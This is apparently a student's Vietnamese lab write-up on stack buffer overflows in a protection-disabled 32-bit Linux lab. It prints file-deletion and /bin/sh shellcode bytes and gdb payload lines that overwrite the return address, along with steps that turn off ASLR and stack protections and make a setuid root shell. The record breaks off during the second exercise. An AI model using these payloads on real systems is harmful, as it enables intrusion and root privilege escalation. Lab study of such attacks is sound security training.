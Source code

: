 Lab 2:

# Inject code to delete file: file_del.asm is given on github

Ý tưởng:

-   Program injected: file_del.o được biên dịch từ file_del.asm
    
-   Đối tượng bị chèn vào: vuln.c
    

Các bước:

1.  Dịch mã máy từ file_del.asm thành file_del.o  

    nasm -g -f elf file_del.asm 
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQIVWHD1iadEHZep9K55e_2ob3jPBDXtqATQvb2qYfaehaLJTSHs5a559M3ou6fiOHEsKmc6uHWB5tCYEX2KMpToq_9tXAv-cxStpYBDMPx3IIIezR5eGXcBnO3N3sBblCRcEaAfaMxKcXvaIU2hL0fgY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
2.  Link file_del.out với lệnh file_del  
    Cú pháp: ld -m elf_i386 -o file_del file_del.o ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3OoBdDkJp7idolhrmbYqguAbCsucW-GmHHkZTe7K612tfmLV4TcLGM9eU9VmJvhigM5Is-yV1iPp2QqhUUA96KnBvI157uJHKOeWYpOZCPYhGqKFnYaR3qMZJ4BoCFRs3tJ3TnzWya98PaqG3p9GkbRg?key=x066aHYoH5XtbJjV6Ng-LQ)![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXegracxlM1zwXtsRKM-UvdedDnAFX7Rr0_y1f9hk69cyo_QVk_ABSouIeEUqBqqnBYj2XhFaAFa4INaItF92kdju1VYlmu7LCYn0S939wzsQUQInbKMfzjNC4U5voC61pBVK89nIfzHdLzBcs4MsHKcHF-_?key=x066aHYoH5XtbJjV6Ng-LQ)
    
3.  Disassem chương trình file_del  
    objdump -d file_del  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdTjMDyYv459ARkFwM9iVfszV8aeJE3pogQ5IPYlufXx9Gf1qQDDftJlwaLM5yJiLbRZYtzNP-EaMvejM5RU950YWJxdHmzckZM0Q7UdjbeUO2Bi92d8AULobsOv6Re5rWjZQ6TGi7CHwxng5A7CPMoBDY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
4.  dịch chương trình file_del từ hợp ngữ thành mã máy  
    for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfYe2o8lL9kwg5bMXu5xrWoTK0nbyTZOfOgPZHnBrPs2UN3J3_hDuEBJ146ykJ9eTJakeoCwk09ebR_U4ZLgwJ3JPdjFAYH_G1EI_5crtOycEp9wxnL6cMFy4aNGHSWCuqsJ1KoJ2WO386-E3fueU9RqM8?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Kết quả cho ra là: \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
    
5.  Dịch chương trình đối tượng: vuln.c thành vuln.o  
    gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeZ9ABA_1KiObJj2QUfm6Hy0BQ6SDoLV799XuttVum_Da6bMdiU-LALTjo86pyipoozIXO9kPrxy60iQeC3Cgvy3fMbLJoKTqHTQkVKQ-L-p4m1uOSpWZWKsFD3TXLvw8g_HO84sy0dn-HW8zux31lIarNM?key=x066aHYoH5XtbJjV6Ng-LQ)
    
6.  aaa  
    sudo ln -sf /bin/zsh /bin/sh  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcB9mQh9boKp_0s3id9x_TNV91mrWeBvm6giv1E19Y358fttoRP8wzQybKpKhyhgKIYMp7qvA1d4rit8dM15g8Pukrfs161es2HPhcYO24Ka3RPjyUkDUYNkSfwkMsmW-Q4Q3vfiRSq8y4c6zZp1K3O3uI1?key=x066aHYoH5XtbJjV6Ng-LQ)  
    (Password: dees)
    
7.  Debug chương trình đối tượng vuln.out  
    gdb -q vuln.out (P/s: -q Quite: không bla bla, chạy thẳng vào chương trình debug. Demo below:)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeOZuT-Y-D8xTgQBQrJQ-cXwgbygc-iFygnB75Z1qQvpNNsWYlA_cbCPUhAbX7PMiuf34GHBlieU_948BYMNjBZbKzS_XNbEvlTZUNh6iJVLnE04B8F1UvrRExk2Bvgja6DkTl9IBmWBL211usvNf_1ASzY?key=x066aHYoH5XtbJjV6Ng-LQ)
    
8.  Disassemble hàm main để đặt breakpoint trước và sau khi chạy lệnh strcpy  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfAvMCRd8vadEfkSaTVBCoZ342_LVShHjvyN91qksvL1yJGLZRjfWF2PXPEQ4ILy76HmtYIUSIQ0EmAJTOixGPRBfFIElYRTQk4VF_rpz2j251MbyQL6IYW2QkJul-Ybz9pmK_T8UoSAVexqbN5cS_TUh4?key=x066aHYoH5XtbJjV6Ng-LQ)
    
9.  Đặt breakpoint tại vị trí 1 và 2 theo hình trên:  
    Lý do:  
    1. Sau khi chương trình đã hoàn thành khởi tạo stack: push ebp vào stack, lưu esp = ebp, push biến khởi tạo (char buf[64]) vào trong stack (0x40 là 64 byte ở dạng thập lục)  
    2. Sau khi hoàn thành lệnh strcpy và đã giải phóng ebp và trở về return address (‘ra’)  
    Bằng lệnh:  
    b *0x08048441  
    b *0x0804846b  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXddHftwjaIAomnUfTJbftN778zpVZ7UGwCBSxIZfyjFhr-LKIfp3OEiALnL301NVmJmIO82_EB7UizAap2boWu8ceWCdBSGEN9tXU2jAEWXiRYtNhE0ThPofS5SUFLy6taM1zBIhgCsYpNWHdlTSIpyn7vm?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Extra: Kiểm tra breakpoint bằng info breakpoint và xoá breakpoint bằng lệnh del [số thứ tự của breakpoint]
    
10.  Chạy debug chương trình vuln.out với giá trị đầu vào của argv[]  
   
 r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 23 + '\xff\xff\xff\xff')")  

Giải thích: r Run chương trình python [...]  
print(“[chương trình file_del ở dạng mã máy] + ‘a’ 23 lần + [giá trị ngẫu nhiên]”)  
Giải thích về ‘a’ 23 lần:  
Stack của hàm main()  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfd6JeOXapIP7aCfbg4igVY2MpOmVbFiGD7LE8d4SOo7c3pcZr84dJY9nzmbaxlUOg_ynd7RZJXJUmQOmIWjK_YLcXVz2CvDR7t_2sfwvOA22EvF64c-C6ajoD3lT5KJThR2UrEzAa23sbQ3OkBLGn8eNR6?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Ảnh chi tiết từ buf đến ‘ra’ của stack main  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeCyYQ75GmFBipRzNUaydXbMvXR8RN4B3hlsIOJsqMyJ9E0GRhn_o2I2Fu9bsYjiKrOjE7BapKD7w4yiTk0N6_4oy5dhPgO1g1CkGy55vfiJXW6l45u_7nhjPkQm--p5a3xnUkSR0Kk6spOttI8a59PVv4z?key=x066aHYoH5XtbJjV6Ng-LQ)  
    biến buf có dung lượng là 64 bytes, chúng ta cần ‘tiêm’ chèn vào trong biến mất 45 bytes nghĩa là buf còn lại 19 byte và chúng ta cần fill hết 19 byte đó bằng ký tự ‘a’  
    Phía dưới của biến buf là ebp (base pointer aka frame pointer/ extended base pointer) có dung lượng là 4 bytes và chúng ta cũng cần fill với 4 ký tự ‘a’  
    Đến ‘ra’ cũng có dung lượng là 4 bytes và đó là nơi chúng ta lưu vị trí của chương trình file_del cũng là địa chỉ của con trỏ esp (extended stack pointer) (sau khi hoàn thành stack thì con trỏ esp luôn ở trên cùng của stack nghĩa là ở trên của biến cuối cùng được thêm vào)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeHTpass1StoowTLUFxMn5xafGO36vV_wkI_SVay1hUVfVpCTx_V-cVMbZ26_gO8vpIVfkfMjgM9MwBwRbBBkC2pQpa53TZMHgLaDskrvPZbu1qMdySVA9GMuBuWGwRJjwnYSXMUxrsPD5k7C7Cixcq1V3G?key=x066aHYoH5XtbJjV6Ng-LQ)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdDv9Eu7I5ni-Qh99r9_2cDX1SA5yUocwOZ-_t8aoHKVIQLW4280dUStXPoZ5PMc8_wSDFxeFsh5VZBnCwcYdbCNhfn3D0x7nSxG6Qyo81BGRsyeU_3-J1QrR8r9HHupKCC1-tih8KqefnydkyBma1sC4t9?key=x066aHYoH5XtbJjV6Ng-LQ)
    
11.  Xuất 80 bytes từ con trỏ esp  
    x/80xb $esp  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdSCmk5Hs5I3KhndgTpi8Diiw9MUqPooEtUFEmbJKUg1Yyww2TGvfHu2B0zfreqNlEI30t3P1tXPthdHfvxojq8aiFJ22GvszBolgGJBU7KN4KJ0BqYpTA193aX93xVwLuYfx4BEHPrAnQImnjegUJ8-xF4?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Giải thích: Tại sao lại là 80 bytes  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcQPYE671s2lYTm_FHnyDs6ZXezisSA_vVuGfHwpt8IW1VgBDZiKtSvEX5bEpEegM0qnaMouMNDjwx7jgo8XtibTHEPY7Ls2olWQZ9qTJnlYrnVn-5-PLEcLmUXgY2I5SRxf5lF2W1A9WtKvsLoppU9OflW?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Stack của hàm main gồm argv[] 4 bytes, argc 4 byte, ‘ra’ 4 bytes, ebp 4 bytes, buf 64 bytes. Tổng là 4 + 4 + 4 + 4 + 64 = 80 bytes  
    Nghĩa là stack của hàm main có 80 bytes và con trỏ esp ở trên cùng của stack. Từ đó xuất 80 bytes từ con trỏ esp nghĩa là xuất hết các giá trị trong stack  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe4ou9j0EvlDEoy84oX1NZkeSuU2MBEtUCOl1vg8LqEfihixKp4_0GDtnzdJLH_OQg0Oym1_zjIu_yhFIpurQWk0zrA_3gtYpVI11DBxzDAKh6eL1bhgHDsshPRGePL8zZV3RVAi2mEJxurr6OW3VZp168J?key=x066aHYoH5XtbJjV6Ng-LQ)
    
12.  Chèn vị trí của esp (phía trên buf để chạy chương trình được chèn ở đầu buf) vào ‘ra’ để chương trình khi kết thúc stack sẽ chạy buf  
    *** Nhớ là set sau khi chương trình đã được chèn sau khi lệnh strcpy đã được thực thi nhá!  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf1JUcca3oVFNhL4CKPK7T6KwycCIwyRycYLkaKNHFoNmyegmElOxY1fm6zTzDYQG7z3eJobQkiSEhX34c4iw0xxhatSKXEtDGoWlGui_NRSWTWZJDTI82civeUI3K1b0ulrCWC8O8vmddHbr78nq6Abtg?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Done
    

# Conduct attack on ctf.c

1.  Chuẩn bị môi trường để tấn công:  
    Tắt cấp phát địa chỉ stack ngẫu nhiên để dễ kiểm soát địa chỉ stack:mặc định là 2  
    sudo sysctl -w kernel.randomize_va_space=0  
    Tạo symbolic link tới zsh thay vì sh (default) để tránh bị ngăn chặn root từ Ubuntu  
    sudo ln -sf /bin/zsh /bin/sh
    
2.  Biên dịch chương trình sh.asm thành sh.o rồi link thành sh để thực thi  
    nasm -g -f elf sh.asm -> tạo ra file sh.o  
    ld -m elf_i386 -o sh sh.o -> tạo ra file sh
    
3.  sh là chương trình lấy quyền điều khiển của chương trình. Khi thực thi .sh sẽ xuất hiện shell ký hiệu là ‘$’ nghĩa là quyền thực thi chương trình của user seed (user hiện tại) chứ k phải quyền điều khiển root (administrator của window)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdjWDrbmUojSXG2gSFc_rOfuPSMlVR6J-T80CbvtVILtQ3U-fxuyBjXYnqG_FNX7byv269EYQgmxAe6QTZyjUqK-yf4tCax4QDkrdiN1encz7Tqpj7D6UevY-qv0HDlgWU8IXM6jVLC8WkZ30eVN-1gL5M?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Để *leo thang đặc quyền* cho chương trình sh có quyền của root ta thực hiện các thao tác sau.
    
4.  Chuyển quyền sở hữu của file sh cho root  
    sudo chown root sh  
    (P/s: password là dees)  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWMukUtYhNT4Nn661GgLPqcigp1s7Bbl5_WM920XBqHtfKfuKXbaiyFAE_fAKKsfBP9Abj3YaqLTGHYCIy3YvMGS2d_SSrkF0UZTvfwoEn2LlZiAWECLowpefRIbp0IfSMqAwqThSnL0CPiPDkQPpGkoDu?key=x066aHYoH5XtbJjV6Ng-LQ)
    
5.  Thay đổi quyền truy cập của file sh thành 4755  
    sudo chmod 4755 sh  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfJ0xaiH5bGbpyg07UphikAeWl0stG2k-9bG1U8quXxBxmz5FOihtScQjqhwNzm95eP6DRKyUwFG4gF7UpDjW44kE9qxlre2vUHd-gjUZut4oRm1EHugLl7WgIRz_BH6EZMVyI9vPyl0uElMdn2nksGbAG0?key=x066aHYoH5XtbJjV6Ng-LQ)  
    [Giải thích:  
    ](https://www.youtube.com/watch?v=lNEa855uipg)chmod Change mod  
    4 là chạy với quyền thực thi của owner thay vì là user, ở đây là quyền của root thay vì là của seed  
    7 là các quyền của owner: rwx là read write execute  
    5 là các quyền của group owner: r-x là read and execute  
    5 là các quyền của other user: r–x là read execute
    
6.  Sau đó chạy chương trình sh bằng ./sh  
    ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfeLt4eWpp9H-LUhnnVA9go06SZWerG_iH10Z2sJEGlFkWDNSgK041MPHRCCoxLAaifCS3mXN5T419Pbfpy0Vce3KjPeXYZH9I0TbOFp0aczjgMvJ8eprFwn3UN9WxT33aLL64JD21d1bOtOYSfCvp0utDh?key=x066aHYoH5XtbJjV6Ng-LQ)  
    Dấu # sẽ hiện ra nghĩa là đang thực thi shell ở quyền root thay vì $ của user  
    Thoát bằng lệnh exit
    
7.  Biên dịch chương trình đối tượng ctf.c thành ctg.out với tắt các cơ chế bảo vệ để có thể tấn công:  
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`
    
8.  Rã chương trình sh thành opcode  
`for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
    Kết quả cho ra:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80  `
    size: 27 bytes  
Debug chương trình ctf.out  
    `gdb -q ./ctf.out`  
Sau đó rã hàm vuln và tìm vị trí của chương trình trước khi chạy strcpy và sau khi đã khởi tạo stack
    `disas vuln`
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe3i-Kb3Y6-4mdXDGx_SJBT4PeH2fjs8nbhCqYEfdS06sCekFfN1HC2pTVyUU_Q24H_MLbficsmxVcdUaFNy_uVWNSdNqcx0JZZ8Wr9BYaMaSlFJrsg_GvaOrhqsV2M9Ks15lxsDcgqIbWDBP2tge9C8yNq?key=x066aHYoH5XtbJjV6Ng-LQ)**
9. Chạy debug chương trình
`r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a' * 77 + '\xff\xff\xff\xff')")`
Trong lần đầu chạy thì chương trình sẽ dùng ở breakpoint 1. Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp. 
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdpuCT8PuyM6RgJHGoMm2Ct18_9HdO0kOFmKmWKnIuyRYaQVE9m7_lchyRN6qapxW9u49QFAilQDM8bS5AVjsL8XTgyQDNXK02C3xYqzbRUiZ_0yYKDClUet9JxbQGRoCkX37_xfoRG8-Jek8CVg1ApOy9Z?key=x066aHYoH5XtbJjV6Ng-LQ)**
Tiếp tục chương trình bằng lệnh `continue` để đến breakpoint 2.
Dùng lệnh `x/108xb $esp` để xuất 108 bytes kể từ địa chỉ của con trỏ esp.
